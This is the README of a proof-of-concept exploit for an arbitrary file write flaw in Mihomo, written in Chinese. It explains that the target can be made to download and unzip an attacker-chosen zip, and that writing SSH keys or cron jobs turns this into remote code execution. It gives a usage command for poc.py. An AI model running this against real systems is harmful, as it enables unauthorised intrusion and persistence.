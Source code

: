 # PoC-mihomo-file-write

Mihomo任意文件写，可通过写SSH密钥、cron任务等实现RCE

## 介绍

Mihomo有一个任意文件写的漏洞，可以让目标从网上下载解压任意zip文件，实现任意文件写入。

## 使用

```shell
python poc.py 'http://127.0.0.1:9090' '/tmp/any-path-you-want/:https://gith
ub.com/PuddinCat/testfiles/archive/refs/heads/main.zip'
```
